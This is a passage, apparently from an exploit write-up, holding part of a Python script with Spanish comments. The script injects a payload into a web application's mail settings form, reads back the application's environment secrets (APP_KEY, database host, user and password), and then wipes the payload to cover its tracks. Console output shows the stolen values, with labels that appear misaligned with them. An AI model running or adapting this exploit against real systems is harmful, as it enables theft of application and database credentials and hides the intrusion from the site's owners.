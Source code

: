 ```python
					'config[mail_driver]': (None, values["mail_driver"]),
					'config[mail_host]': (None, values["mail_host"]),
					'config[mail_address]': (None, payload),
					'config[mail_username]': (None, values["mail_username"]),
					'config[mail_password]': (None, values["mail_password"])
					}
	req3 = sess.post(url_settings, files=multipart_data, timeout=20)

post_data(values, payload, url_settings)

# 5. Extraer variables
req4 = sess.get(url_settings)
while "base64" not in req4.text:
	req4 = sess.get(url_settings)
print("[*] Variables extraidas: ")
dotenv = re.findall(r'value="(.*?)"',req4.text)[10]
dotenvs = dotenv.split("&lt;x&gt;")
zipped = list(zip(variables, dotenvs))
print(zipped)

# 6: Limpiar todo
payload = ""
post_data(values, payload, url_settings)
```
```console
└─$ python3 eexploit.py
[+] Logueados
[*] Variables extraidas:
[('APP_KEY', '7822527115'), ('DB_HOST', 'base64:9mUxJeOqzwJdByidmxhbJaa74xh3ObD79OI6oG1KgyA='), ('DB_DATABASE', 'localhost'), ('DB_USERNAME', 'cachet'), ('DB_PASSWORD', 'will')]
```
